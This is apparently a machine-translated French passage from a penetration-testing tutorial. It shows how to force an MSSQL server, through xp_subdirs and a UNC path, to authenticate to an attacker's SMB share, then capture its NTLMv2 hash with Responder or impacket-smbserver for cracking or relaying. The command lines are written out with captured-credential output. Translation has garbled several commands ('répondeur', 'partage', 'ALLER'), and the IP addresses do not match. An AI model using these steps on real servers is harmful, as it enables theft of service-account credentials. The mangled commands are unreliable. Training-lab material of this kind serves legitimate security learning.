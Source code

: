#### Vol de hachage XP_SUBDIRS

Vol de hachage XP_SUBDIRS

```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> ALLER

HResult 0x55F6, niveau 16, état 1
xp_subdirs n'a pas pu accéder à '\\10.10.110.17\share\*.*' : FindFirstFile() a renvoyé l'erreur 5, 'L'accès est refusé.'

```

Si le compte de service a accès à notre serveur, nous obtiendrons son hachage. Nous pouvons alors tenter de casser le hachage ou de le relayer vers un autre hôte.

#### XP_SUBDIRS Hash Stealing avec Responder

Vol de hachage XP_SUBDIRS avec répondeur

```
dsgsec@htb[/htb]$ répondeur sudo -I tun0

                                          __
   .----.-----.-----.-----.-----.-----.--| |.-----.----.
   | _| -__|__ --| _ | _ | | _ || -__| _|
   |__| |_____|_____| __|_____|__|__|_____||_____|__|
                    |__|
<SNIP>

[+] A l'écoute des événements...

[SMB] Client NTLMv2-SSP : 10.10.110.17
[SMB] Nom d'utilisateur NTLMv2-SSP : SRVMSSQL\demouser


```

#### XP_SUBDIRS Hash Stealing avec impacket

XP_SUBDIRS Hash Stealing avec impacket

```
dsgsec@htb[/htb]$ partage sudo impacket-smbserver ./ -smb2support

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Fichier de configuration analysé
[*] Rappel ajouté pour UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Rappel ajouté pour UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Fichier de configuration analysé
[*] Fichier de configuration analysé
[*] Fichier de configuration analysé
[*] Connexion entrante (10.129.203.7,49728)
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] Utilisateur WINSRV02\mssqlsvc authentifié avec succès

[*] Fermeture de la connexion (10.129.203.7,49728)
[*] Connexions restantes []

```
